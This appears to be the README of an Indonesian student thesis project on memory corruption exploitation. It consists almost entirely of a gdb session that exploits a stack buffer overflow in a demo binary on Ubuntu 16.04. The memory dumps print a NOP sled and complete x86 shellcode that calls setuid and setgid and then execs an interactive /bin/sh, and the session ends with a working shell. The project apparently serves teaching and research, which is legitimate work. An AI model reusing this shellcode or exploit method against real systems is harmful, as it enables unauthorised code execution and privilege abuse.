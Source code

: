 # Proyek Tugas Akhir
Dengan judul <b>Model Eksploitasi Memory Corruption Vulnerabilities di Modern System</b>

Klasik binary exploitation di Ubuntu 16.04

---

<h4>Stack Buffer Overflow</h4>
<code>
  % gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) r `./exploit 0xffffffff`
Starting program: /home/febri/projek/tugas-akhir/kode-program/compiled-binary/demo/bof `./exploit 0xffffffff`
eip di fungsi main() pada stack frame ada pada alamat 0xbfffec20
kamu mengatakan : �����������������������������������1ۉذ̀1ۉذ.̀1�Rhn/shh//bi��Rfh-i��RQS��j
                                                                                         X̀jX1�̀����������������������������

Program received signal SIGSEGV, Segmentation fault.
0xffffffff in ?? ()
(gdb) i r $esp
esp            0xbfffec80	0xbfffec80
(gdb) x/1000bx 0xbfffec00
0xbfffec00:	0x70	0xa5	0xe7	0xb7	0x1e	0xec	0xff	0xbf
0xbfffec08:	0x00	0xe0	0xfa	0xb7	0x75	0x56	0xe4	0xb7
0xbfffec10:	0x7e	0x84	0x04	0x08	0x4a	0x85	0x04	0x08
0xbfffec18:	0x1e	0xec	0xff	0xbf	0x17	0x2f	0x90	0x90
0xbfffec20:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec28:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec30:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec38:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec40:	0x90	0x31	0xdb	0x89	0xd8	0xb0	0x17	0xcd
0xbfffec48:	0x80	0x31	0xdb	0x89	0xd8	0xb0	0x2e	0xcd
0xbfffec50:	0x80	0x31	0xd2	0x52	0x68	0x6e	0x2f	0x73
0xbfffec58:	0x68	0x68	0x2f	0x2f	0x62	0x69	0x89	0xe3
0xbfffec60:	0x52	0x66	0x68	0x2d	0x69	0x89	0xe1	0x52
0xbfffec68:	0x51	0x53	0x89	0xe1	0x6a	0x0b	0x58	0xcd
0xbfffec70:	0x80	0x6a	0x01	0x58	0x31	0xdb	0xcd	0x80
0xbfffec78:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec80:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec88:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec90:	0xff	0xff	0xff	0xff	0x00	0x00	0x00	0x00
0xbfffec98:	0x00	0xe0	0xfa	0xb7	0x04	0xfc	0xff	0xb7
0xbfffeca0:	0x00	0xf0	0xff	0xb7	0x00	0x00	0x00	0x00
0xbfffeca8:	0x00	0xe0	0xfa	0xb7	0x00	0xe0	0xfa	0xb7
0xbfffecb0:	0x00	0x00	0x00	0x00	0xb7	0xfa	0x0e	0xe5
0xbfffecb8:	0xa7	0x14	0x5c	0xd8	0x00	0x00	0x00	0x00
0xbfffecc0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffecc8:	0x02	0x00	0x00	0x00	0x40	0x83	0x04	0x08
0xbfffecd0:	0x00	0x00	0x00	0x00	0x10	0x00	0xff	0xb7
0xbfffecd8:	0x80	0xa8	0xfe	0xb7	0x00	0xf0	0xff	0xb7
0xbfffece0:	0x02	0x00	0x00	0x00	0x40	0x83	0x04	0x08
0xbfffece8:	0x00	0x00	0x00	0x00	0x61	0x83	0x04	0x08
0xbfffecf0:	0x3b	0x84	0x04	0x08	0x02	0x00	0x00	0x00
0xbfffecf8:	0x14	0xed	0xff	0xbf	0x90	0x84	0x04	0x08
0xbfffed00:	0xf0	0x84	0x04	0x08	0x80	0xa8	0xfe	0xb7
0xbfffed08:	0x0c	0xed	0xff	0xbf	0x18	0xf9	0xff	0xb7
0xbfffed10:	0x02	0x00	0x00	0x00	0x30	0xef	0xff	0xbf
0xbfffed18:	0x75	0xef	0xff	0xbf	0x00	0x00	0x00	0x00
0xbfffed20:	0xec	0xef	0xff	0xbf	0xfb	0xef	0xff	0xbf
0xbfffed28:	0x0d	0xf0	0xff	0xbf	0x2b	0xf0	0xff	0xbf
0xbfffed30:	0x4e	0xf0	0xff	0xbf	0x59	0xf0	0xff	0xbf
0xbfffed38:	0x7b	0xf0	0xff	0xbf	0x8d	0xf0	0xff	0xbf
0xbfffed40:	0xa4	0xf0	0xff	0xbf	0xd0	0xf0	0xff	0xbf
0xbfffed48:	0x03	0xf1	0xff	0xbf	0x24	0xf1	0xff	0xbf
0xbfffed50:	0x32	0xf1	0xff	0xbf	0x41	0xf1	0xff	0xbf
0xbfffed58:	0x55	0xf1	0xff	0xbf	0x68	0xf1	0xff	0xbf
---Type <return> to continue, or q <return> to quit---
0xbfffed60:	0x29	0xf2	0xff	0xbf	0x40	0xf2	0xff	0xbf
0xbfffed68:	0x55	0xf2	0xff	0xbf	0x67	0xf2	0xff	0xbf
0xbfffed70:	0x79	0xf2	0xff	0xbf	0x8f	0xf2	0xff	0xbf
0xbfffed78:	0xa3	0xf2	0xff	0xbf	0xdd	0xf2	0xff	0xbf
0xbfffed80:	0x06	0xf3	0xff	0xbf	0x29	0xf3	0xff	0xbf
0xbfffed88:	0x44	0xf3	0xff	0xbf	0x56	0xf3	0xff	0xbf
0xbfffed90:	0x76	0xf3	0xff	0xbf	0x91	0xf3	0xff	0xbf
0xbfffed98:	0xa3	0xf3	0xff	0xbf	0xba	0xf3	0xff	0xbf
0xbfffeda0:	0xfe	0xf3	0xff	0xbf	0x34	0xf4	0xff	0xbf
0xbfffeda8:	0x78	0xf4	0xff	0xbf	0x9b	0xf4	0xff	0xbf
0xbfffedb0:	0xb2	0xf4	0xff	0xbf	0xd1	0xf4	0xff	0xbf
0xbfffedb8:	0xe4	0xf4	0xff	0xbf	0xef	0xf4	0xff	0xbf
0xbfffedc0:	0x1c	0xf5	0xff	0xbf	0x61	0xf5	0xff	0xbf
0xbfffedc8:	0x72	0xf5	0xff	0xbf	0x8a	0xf5	0xff	0xbf
0xbfffedd0:	0x9c	0xf5	0xff	0xbf	0xad	0xf5	0xff	0xbf
0xbfffedd8:	0xc0	0xf5	0xff	0xbf	0xf4	0xf5	0xff	0xbf
0xbfffede0:	0x6f	0xf6	0xff	0xbf	0x7e	0xf6	0xff	0xbf
0xbfffede8:	0x9b	0xf6	0xff	0xbf	0xcc	0xf6	0xff	0xbf
0xbfffedf0:	0xdd	0xf6	0xff	0xbf	0xfc	0xf6	0xff	0xbf
0xbfffedf8:	0x10	0xf7	0xff	0xbf	0x42	0xf7	0xff	0xbf
0xbfffee00:	0x4a	0xf7	0xff	0xbf	0x5c	0xf7	0xff	0xbf
0xbfffee08:	0x67	0xf7	0xff	0xbf	0x76	0xf7	0xff	0xbf
0xbfffee10:	0x90	0xf7	0xff	0xbf	0xa4	0xf7	0xff	0xbf
0xbfffee18:	0xbe	0xf7	0xff	0xbf	0xd3	0xf7	0xff	0xbf
0xbfffee20:	0x0f	0xf8	0xff	0xbf	0x22	0xf8	0xff	0xbf
0xbfffee28:	0x3b	0xf8	0xff	0xbf	0x83	0xf8	0xff	0xbf
0xbfffee30:	0x9e	0xf8	0xff	0xbf	0xa9	0xf8	0xff	0xbf
0xbfffee38:	0xb1	0xf8	0xff	0xbf	0xc6	0xf8	0xff	0xbf
0xbfffee40:	0xe6	0xf8	0xff	0xbf	0x6e	0xfe	0xff	0xbf
0xbfffee48:	0x8d	0xfe	0xff	0xbf	0xa6	0xfe	0xff	0xbf
0xbfffee50:	0xd4	0xfe	0xff	0xbf	0xec	0xfe	0xff	0xbf
0xbfffee58:	0x21	0xff	0xff	0xbf	0x5b	0xff	0xff	0xbf
0xbfffee60:	0xa2	0xff	0xff	0xbf	0xab	0xff	0xff	0xbf
0xbfffee68:	0x00	0x00	0x00	0x00	0x20	0x00	0x00	0x00
0xbfffee70:	0xc8	0xab	0xfd	0xb7	0x21	0x00	0x00	0x00
0xbfffee78:	0x00	0xa0	0xfd	0xb7	0x10	0x00	0x00	0x00
0xbfffee80:	0xff	0xfb	0x8b	0x17	0x06	0x00	0x00	0x00
0xbfffee88:	0x00	0x10	0x00	0x00	0x11	0x00	0x00	0x00
0xbfffee90:	0x64	0x00	0x00	0x00	0x03	0x00	0x00	0x00
0xbfffee98:	0x34	0x80	0x04	0x08	0x04	0x00	0x00	0x00
0xbfffeea0:	0x20	0x00	0x00	0x00	0x05	0x00	0x00	0x00
0xbfffeea8:	0x09	0x00	0x00	0x00	0x07	0x00	0x00	0x00
0xbfffeeb0:	0x00	0xb0	0xfd	0xb7	0x08	0x00	0x00	0x00
0xbfffeeb8:	0x00	0x00	0x00	0x00	0x09	0x00	0x00	0x00
---Type <return> to continue, or q <return> to quit---
0xbfffeec0:	0x40	0x83	0x04	0x08	0x0b	0x00	0x00	0x00
0xbfffeec8:	0xe8	0x03	0x00	0x00	0x0c	0x00	0x00	0x00
0xbfffeed0:	0xe8	0x03	0x00	0x00	0x0d	0x00	0x00	0x00
0xbfffeed8:	0xe8	0x03	0x00	0x00	0x0e	0x00	0x00	0x00
0xbfffeee0:	0xe8	0x03	0x00	0x00	0x17	0x00	0x00	0x00
0xbfffeee8:	0x00	0x00	0x00	0x00	0x19	0x00	0x00	0x00
0xbfffeef0:	0x1b	0xef	0xff	0xbf	0x1f	0x00	0x00	0x00
0xbfffeef8:	0xb7	0xff	0xff	0xbf	0x0f	0x00	0x00	0x00
0xbfffef00:	0x2b	0xef	0xff	0xbf	0x00	0x00	0x00	0x00
0xbfffef08:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffef10:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffef18:	0x00	0x00	0x00	0x7a	0x5e	0x04	0xd8	0xfd
0xbfffef20:	0x6b	0x0d	0xe4	0xb6	0x78	0x9b	0x87	0x87
0xbfffef28:	0x54	0x05	0x5c	0x69	0x36	0x38	0x36	0x00
0xbfffef30:	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x66	0x65
0xbfffef38:	0x62	0x72	0x69	0x2f	0x70	0x72	0x6f	0x6a
0xbfffef40:	0x65	0x6b	0x2f	0x74	0x75	0x67	0x61	0x73
0xbfffef48:	0x2d	0x61	0x6b	0x68	0x69	0x72	0x2f	0x6b
0xbfffef50:	0x6f	0x64	0x65	0x2d	0x70	0x72	0x6f	0x67
0xbfffef58:	0x72	0x61	0x6d	0x2f	0x63	0x6f	0x6d	0x70
0xbfffef60:	0x69	0x6c	0x65	0x64	0x2d	0x62	0x69	0x6e
0xbfffef68:	0x61	0x72	0x79	0x2f	0x64	0x65	0x6d	0x6f
0xbfffef70:	0x2f	0x62	0x6f	0x66	0x00	0x90	0x90	0x90
0xbfffef78:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef80:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef88:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef90:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef98:	0x31	0xdb	0x89	0xd8	0xb0	0x17	0xcd	0x80
0xbfffefa0:	0x31	0xdb	0x89	0xd8	0xb0	0x2e	0xcd	0x80
0xbfffefa8:	0x31	0xd2	0x52	0x68	0x6e	0x2f	0x73	0x68
0xbfffefb0:	0x68	0x2f	0x2f	0x62	0x69	0x89	0xe3	0x52
0xbfffefb8:	0x66	0x68	0x2d	0x69	0x89	0xe1	0x52	0x51
0xbfffefc0:	0x53	0x89	0xe1	0x6a	0x0b	0x58	0xcd	0x80
0xbfffefc8:	0x6a	0x01	0x58	0x31	0xdb	0xcd	0x80	0xff
0xbfffefd0:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffefd8:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffefe0:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
(gdb) r `./exploit 0xbfffef80`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/febri/projek/tugas-akhir/kode-program/compiled-binary/demo/bof `./exploit 0xbfffef80`
eip di fungsi main() pada stack frame ada pada alamat 0xbfffec20
kamu mengatakan : �����������������������������������1ۉذ̀1ۉذ.̀1�Rhn/shh//bi��Rfh-i��RQS��j
                                                                                         X̀jX1�̀����������������������������
process 12451 is executing new program: /bin/dash
$ 
  </code>
